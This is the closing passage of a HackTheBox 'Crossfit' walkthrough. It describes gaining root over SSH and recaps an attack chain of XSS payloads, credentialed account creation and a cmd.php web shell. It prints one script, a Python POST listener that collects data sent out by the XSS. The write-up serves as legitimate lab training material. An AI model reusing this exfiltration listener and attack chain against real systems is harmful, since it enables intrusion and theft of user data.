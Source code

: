 While it was running, I just kept trying to `ssh` in as `root` using the private key. Again, this works because eventually the right number and hence MD5 hash is created.

After a while, it worked!

![](../../../.gitbook/assets/htb-crossfit-image-23.png)

Rooted!

## Scripts Used

Just to recap:

* The Pyhton POST server was used to receive POST requests from the XSS.
* Another Python script was used for delivering my XSS payload, and I varied the Javascript file executed.
* One Javascript payload was used for enumerating subdomains, thus accepting a `fuzz` parameter.
* The other Javascript payload was used for creating a new account with the same session (`credentials` set to `include`).
* The last script was to trigger the `cmd.php` shell.

### Python POST Server

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import parse_qs

class MyRequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        params = parse_qs(post_data.decode('utf-8'))

        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()

        for key, values in params.items():
            if 'zxx' in values:
                break
            print(f"{key}: {values}")

def run_server(port=8000):
    server_address = ('', port)
    httpd = HTTPServer(server_address, MyRequestHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```